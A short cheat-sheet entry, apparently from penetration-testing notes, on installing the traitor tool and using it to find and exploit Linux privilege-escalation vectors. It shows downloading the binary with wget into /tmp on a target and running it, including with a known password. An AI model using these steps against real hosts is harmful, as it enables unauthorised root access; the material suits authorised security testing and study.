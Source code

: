 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.5k ⭐, 2022 ☠️)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in GO which you need to install to download the tool.

```shell!
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/<username>/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>